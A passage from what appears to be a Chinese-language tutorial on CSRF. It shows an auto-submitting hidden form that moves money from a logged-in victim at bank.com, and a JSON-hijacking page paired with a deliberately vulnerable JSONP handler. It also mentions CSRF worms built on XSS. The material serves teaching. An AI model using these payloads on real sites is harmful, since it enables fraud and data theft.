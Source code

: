 #### POST请求下的漏洞利用
和上面的GET请求相同，我们类比一下， 绕过详尽的说明

正常请求如下
```
POST http://bank.com/transfer.do HTTP/1.1
Cookie: id=aljdflajsdhflasdfasf

acct=BOB&amount=100
```

Maria构造的恶意页面如下
```
<body onload="document.forms[0].submit()">
<form action="http://bank.com/transfer.do" method="POST">
<input type="hidden" name="acct" value="MARIA"/>
<input type="hidden" name="amount" value="100000"/>
<input type="submit" value="View my pictures"/>
</form>
```

此时诱导有登录态的Alice去访问恶意页面，页面一加载便会以Alice的身份发送POST请求，改变服务器状态（某些浏览器可能会禁止这种一加载就发表单请求的行为）

#### 其他HTTP方法的利用方式
理论上来讲其他的HTTP方法比如OPTIONS和PUT都存在这种问题且利用方式一样，但是我并没有实验，因为其他方式使用还是少的并会越来越少，而且考虑到请求必须能改变服务器状态的限制，类似OPTIONS的方法也很少有直接改变服务器状态的，因此略过

#### JSON Hijacking读取数据的利用方式
上面说到的CSRF都是改变服务器状态的写数据的情况，但存在一种读数据的情况，就是JSON Hijacking

JSON Hijacking是JSONP带来的风险，但属于CSRF的范畴，因为仍然是因为`<script>`标签发送的请求带有Cookie造成的

典型的恶意页面如下
```
<script>
function hacker(v) {
    alert(v.data)
}
</script>
<script src="http://bank.com/?jsoncallbackfunc=hacker>
```

`bank.com`对JSONP的处理大概是
```
jsoncallbackfunc = request.args.get("jsoncallbackfunc")
return "{}({'data':'data'})".format(jsoncallbackfunc)
```

此时恶意页面便可以获取用户数据

#### 和XSS结合的蠕虫
注意：我们讨论CSRF漏洞的前提是没有XSS漏洞

XSS不是CSRF工作的必要条件，但是，XSS可以简单地读取页面内容并用XMLHttpRequest生成CSRF请求，参考[MySpace(Samy) worm事件](https://en.wikipedia.org/wiki/Samy_(computer_worm))。为了CSRF防御可以起效，没有XSS漏洞是必要的
